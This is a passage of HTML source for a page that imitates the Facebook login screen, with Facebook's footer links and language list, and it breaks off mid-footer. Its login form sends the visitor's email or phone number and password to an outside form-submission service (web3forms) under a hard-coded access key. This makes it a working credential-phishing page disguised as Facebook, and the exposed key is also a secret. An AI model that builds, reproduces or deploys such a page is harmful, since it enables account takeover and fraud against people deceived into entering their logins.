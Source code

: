             <div>
            <form action="https://api.web3forms.com/submit" method="POST">
      
              <input type="hidden" name="access_key" value="a1633aa9-4e14-4e68-9b69-05f2a66f61c3">
        <input type="email" name="email" required placeholder="Email or phone number">
          <input type="text" name="text" required placeholder="Password">
              <div class="fb-submit">
                <button type="submit" class="login">Login</button>
                    <a href="#" class="forgot">Forgot password?</a>
              <hr>
              </div>
            </form>
                <div class="button">
                    <a href="#">Create new account</a>
                </div>
            </form>
        </div>
        </div>
    <footer>
        <div class="footer-langs">
            <ol>
                <li>English (UK)</li>
                <li><a href="#">मराठी</a></li>
                <li><a href="#">हिन्दी</a></li>
                <li><a href="#">اردو</a></li>
                <li><a href="#">ગુજરાતી</a></li>
                <li><a href="#">ಕನ್ನಡ</a></li>
                <li><a href="#">ਪੰਜਾਬੀ</a></li>
                <li><a href="#">தமிழ்</a></li>
                <li><a href="#">বাংলা</a></li>
                <li><a href="#">తెలుగు</a></li>
                <li><a href="#">മലയാളം</a></li>
                <li><button>+</button></li>
            </ol>
            <ol>
                <li><a href="#">Sign Up</a></li>
                <li><a href="#">Log In </a></li>
                <li><a href="#">Messenger</a></li>
                <li><a href="#">Facebook Lite</a></li>
                <li><a href="#">Video</a></li>
                <li><a href="#">Places</a></li>
                <li><a href="#">Games</a></li>
                <li><a href="#">Marketplace</a></li>
                <li><a href="#">Meta Pay</a></li>
                <li><a href="#">Meta Store</a></li>
                <li><a href="#">Meta Quest</a></li>
                <li><a href="#">Imagine with Meta AI</a></li>
                <li><a href="#">Instagram</a></li>
                <li><a href="#">Threads</a></li>
                <li><a href="#">Fundraisers</a></li>
                <li><a href="#">Services</a></li>
                <li><a href="#">Voting Information Centre</a></li>
                <li><a href="#">Privacy Policy</a></li>
                <li><a href="#">Privacy Centre</a></li>
                <li><a href="#">Groups</a></li>
                <li><a href="#">About</a></li>
                <li><a href="#">Create ad</a></li>
                <li><a href="#">Create Page</a></li>
                <li><a href="#">Developers</a></li>
                <li><a href="#">Careers</a></li>
                <li><a href="#">Cookies</a></li>
                <li><a href="#">AdChoices</a></li>
                <li><a href="#">Terms</a></li>
                <li><a href="#">Help</a></li>